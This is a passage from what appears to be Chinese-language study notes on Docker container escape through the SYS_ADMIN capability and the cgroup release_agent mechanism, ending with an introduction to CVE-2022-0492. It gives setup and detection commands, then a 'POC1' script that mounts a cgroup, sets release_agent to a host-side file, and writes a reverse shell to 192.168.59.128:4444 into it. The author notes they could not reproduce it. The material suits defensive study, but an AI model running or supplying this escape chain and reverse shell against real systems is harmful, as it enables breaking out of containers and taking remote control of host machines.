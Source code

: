 1. 以root用户的身份在容器内运行；
2. 容器启用`SYS_ADMIN` `Capability`；（linux的权限划分机制）
3. 容器没有启用Docker默认的`AppArmor`配置文件docker-default，或者AppArmor允许运行`mount syscall`

### 环境

```shell
docker run --rm -it --security-opt apparmor=unconfined --cap-add=SYS_ADMIN ubuntu bash

--cap-add=SYS_ADMIN表示给Docker容器SYS_ADMIN的Capability。
--security-opt apparmor=unconfined表示去除Docker默认的AppArmor配置(CentOS和Red Hat上可不添加此参数)。
```

### 检测

```
# apt update && apt install libcap2-bin -y
capsh --print|grep -qi cap_sys_admin && echo 'SYS_ADMIN is exist!' || echo 'SYS_ADMIN is Not exist!'
```

### 利用

POC1

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
//在容器里创建一个临时目录/tmp/cgrp，并使用mount命令将系统默认的memory类型的cgroup重新挂载到/tmp/cgrp上
echo 1 > /tmp/cgrp/x/notify_on_release
//设置参数
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
//获取docker容器在宿主机上的存储路径
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "sh -i >& /dev/tcp/192.168.59.128/4444 0>&1" >> /cmd
chmod a+x /cmd
//POC将要执行的shell写到cmd文件里，并赋予执行权限
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
//将一个执行即退出的进程ID写入到此cgroup子系统的cgroup.procs中去触发notify_on_release
```

如果你出现mount的错误，这是因为你的配置中没有RDMA cgroup控制器，尝试将rdma更改为memory来修复它

> 在 Linux cgroup 中，`notify_on_release` 是一个特性标志，当其设置为1（启用）时，当 cgroup 中的最后一个任务（进程）结束（退出或附加到其它 cgroup）时，就会触发一个事件。此事件通常是执行一个事先设置好的 `release_agent` 脚本
>
> 我们利用这个特性，将脚本修改为我们执行的命令
>
> 在我看来，这也是特权逃逸的一种，没有复现成功，添加--privileged也无济于事

## CVE-2022-0492

这是在内核中新发现的一个权限提升漏洞。据公告称，该漏洞是由于control groups（cgroups）中的一个逻辑错误所致；
